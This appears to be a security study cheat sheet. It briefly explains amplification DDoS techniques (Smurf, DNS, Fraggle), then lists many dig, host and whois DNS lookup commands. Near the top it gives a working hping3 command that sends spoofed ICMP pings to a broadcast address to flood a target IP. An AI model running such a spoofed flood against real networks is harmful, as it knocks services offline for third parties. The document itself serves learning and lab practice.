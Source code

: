    
use routers broadcast IP address feature to send messages to multiple IP addresses 
use connection-less protocols that do not validate source IP addresses.
amplification techniques;Smurf attack(ICMP amplification), DNS amplification, and Fraggle attack(UDP amplification)
    

Smurf Attack
This command sends ping requests to broadcast IP(10.10.15.255) by spoofing target IP(10.10.15.152). 
All running hosts in this network reply to the target.
$hping3 --icmp --spoof TARGET_IP BROADCAST_IP
$hping3 --icmp --spoof 10.10.15.152 10.10.15.255

DNS lookups
$ whois www.alibaba.com

dig www.alibaba.com ANY +noall +answer
#Find Out TTL Value Using dig
dig +nocmd +noall +answer a www.alibaba.com
#Find Domain SOA Record
$ dig +nssearch www.alibaba.com
#Display All Records
$ dig +noall +answer www.alibaba.com any
#Get Only Short Answer
$ dig +short www.alibaba.com
#Trace Domain Delegation Path
$ dig +trace www.alibaba.com
$ dig -x 217.168.240.132
$ dig +noall +answer -x 217.168.240.132
$ dig -x 193.140.80.208 +short 
$ dig -x 193.140.80.208 +trace
check if your mail servers direct correctly
$dig your_domain_name.com MX
check if "A" records are set correctly
$dig your_domain_name.com


Get TTL Information
$ host -v -t {TYPE} {example.com}
host -t any www.alibaba.com
Find Out the Domain IP
$ host -v -t a cyberciti.biz
Find Out the Domain Mail Server
$ host -v -t mx cyberciti.biz
$ host -v -t soa cyberciti.biz
Find Out the Domain Name Servers
$ host -v -t ns cyberciti.biz
$ host -a www.alibaba.com
Find Out the Domain CNAME Record
$ host -t cname files.cyberciti.biz
Query Particular Name Server
$ host www.alibaba.com ns1.www.alibaba.com
Find Out the Domain TXT Recored (e.g. SPF)
$ host -t txt www.alibaba.com
Reverse DNS lookup 
$host 217.168.240.132
$host -v -t ptr 75.126.153.206
#FW trick
#By default, host command uses UDP protocol,Pass the -T option to use a TCP connection when querying the name server. 
#see if the name server works over TCP and firewall allows queries over the TCP
host -t cname files.cyberciti.biz
